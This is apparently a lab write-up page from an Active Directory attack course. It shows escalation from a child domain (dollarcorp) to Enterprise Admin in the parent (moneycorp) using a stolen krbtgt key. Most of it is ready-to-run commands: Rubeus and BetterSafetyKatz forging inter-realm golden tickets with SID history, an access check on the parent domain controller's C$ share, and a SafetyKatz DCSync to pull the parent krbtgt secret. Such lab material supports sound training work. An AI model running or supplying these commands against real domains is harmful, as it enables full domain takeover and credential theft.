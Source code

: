 # 🦭 Escalate privileges to Enterprise Admin or DA to the parent domain,  using krbtgt hash

We already have the krbtgt hash from dcorp-dc. Let's create the inter-realm TGT and inject.

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt
```

<figure><img src="../../.gitbook/assets/image (1146).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1147).png" alt=""><figcaption></figcaption></figure>

We can now access mcorp-dc!

<figure><img src="../../.gitbook/assets/image (1148).png" alt=""><figcaption></figcaption></figure>

Now let's try using BetterSafetyKatz ->

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /ptt" "exit"
```

And now we can check if we can use this  file/ ticket

```
dir \\mcorp-dc.moneycorp.local\c$
```

<figure><img src="../../.gitbook/assets/image (1149).png" alt=""><figcaption></figcaption></figure>

And now we could run DCSync agains mcorp-dc to extract secrets from it, start by encoding "lsadump::dcsync"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

<figure><img src="../../.gitbook/assets/image (1150).png" alt=""><figcaption></figcaption></figure>
